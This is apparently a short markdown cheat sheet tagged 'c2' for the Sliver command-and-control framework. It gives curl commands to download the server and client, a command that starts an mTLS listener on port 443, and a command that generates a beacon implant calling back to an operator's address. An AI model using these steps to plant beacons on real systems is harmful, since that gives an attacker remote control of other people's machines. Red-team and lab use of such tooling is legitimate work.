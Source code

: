 ```yaml
---
title: sliver
tags:
- c2
---
```

## sliver

### Download the latest version

#### server
```sh
curl -L https://github.com/BishopFox/sliver/releases/latest/download/sliver-server_linux -s --output sliver
```
####  client
```sh
curl -L https://github.com/BishopFox/sliver/releases/latest/download/sliver-client_linux -s --output sliver
```
### MTLS

#### Listener
```
mtls -l 443 -L 0.0.0.0 -p
```

#### Payload
```sh
generate beacon --mtls <ip address>:<port>
```
